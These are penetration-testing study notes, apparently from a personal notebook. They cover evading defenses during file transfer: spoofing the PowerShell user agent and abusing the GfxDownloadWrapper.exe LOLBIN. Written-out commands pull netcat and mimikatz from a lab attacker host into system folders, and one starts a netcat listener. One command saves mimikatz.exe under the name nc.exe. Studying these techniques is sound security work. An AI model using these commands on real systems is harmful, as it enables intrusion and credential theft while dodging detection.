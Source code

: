 # Changing User Agent
---
- If diligent administrators or defenders have **blacklisted any of these User Agents,** **==Invoke-WebRequest contains a UserAgent parameter, which allows for changing the default user agent==** to one emulating Internet Explorer, Firefox, Chrome, Opera, or Safari.

- Listing out User Agents:
	- `[Microsoft.PowerShell.Commands.PSUserAgent].GetProperties() | Select-Object Name,@{label="User Agent";Expression={[Microsoft.PowerShell.Commands.PSUserAgent]::$($_.Name)}} | fl`
	- ![[Pasted image 20250623065703.png]]
- Invoking Invoke-WebRequest to download nc.exe using a Chrome User Agent:
	- `$UserAgent = [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome`
	- `Invoke-WebRequest http://10.10.10.32/nc.exe -UserAgent $UserAgent -OutFile "C:\Users\Public\nc.exe"`
	- `nc -lvnp 80`

# LOLBAS / GTFOBins
---
- Application whitelisting **may prevent you from using PowerShell or Netcat**, and command-line logging may alert defenders to your presence.
- An example LOLBIN is the Intel Graphics Driver for Windows 10 (GfxDownloadWrapper.exe), in**stalled on some systems and contains functionality to download configuration files periodically.** This download functionality can be invoked as follows:

- `GfxDownloadWrapper.exe "http://10.10.10.132/mimikatz.exe" "C:\Temp\nc.exe"`

- Such a binary **might be permitted to run by application whitelisting and be excluded from alerting.**
- Other, more commonly available binaries are also available, and it is worth checking the [LOLBAS](https://lolbas-project.github.io/) project to find a suitable "file download" binary that exists in your environment. 
- Linux's equivalent is the [GTFOBins](https://gtfobins.github.io/) project and is definitely also worth checking out. As of the time of writing, the GTFOBins project provides useful information on nearly 40 commonly installed binaries that can be used to perform file transfers.